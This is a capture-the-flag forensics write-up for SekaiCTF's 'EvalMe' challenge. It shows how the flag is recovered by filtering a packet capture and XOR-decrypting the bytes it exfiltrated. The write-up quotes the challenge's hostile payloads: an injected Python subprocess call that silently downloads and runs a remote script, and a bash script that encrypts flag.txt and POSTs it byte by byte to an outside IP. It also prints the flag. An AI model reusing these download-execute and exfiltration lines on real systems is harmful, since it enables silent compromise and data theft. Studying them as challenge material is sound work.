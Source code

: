 <h1>EvalMe - Forensice - SekaiCTF</h1>
<h2>Author: Guesslemonger</h2>

<h3>Problem: I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?
It came attached with a capture.pcapng.</h3?

Connecting to the chals.sekai.team server, it required the user to solve 100 simple math problems under a given time. This was solved using the evalMe.py script. 

Following its solve, there was a curl command given at the end:
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2 

Downloading the extract.sh to our VM, we get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

This script reads the content of flag.txt, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be http://35.196.65.151:30899/, and the data is likely being sent in a structured JSON format as part of the POST request.

This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: ip.dst ==35.196.65.151 && http.request.method == POST, we get 51 packets that contain the bytes that was sent as seen below:


![alt text]([https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true])

Exporting all those bytes, we created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```

Running it against all the exported bytes, we retrieve the flag: SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483} 
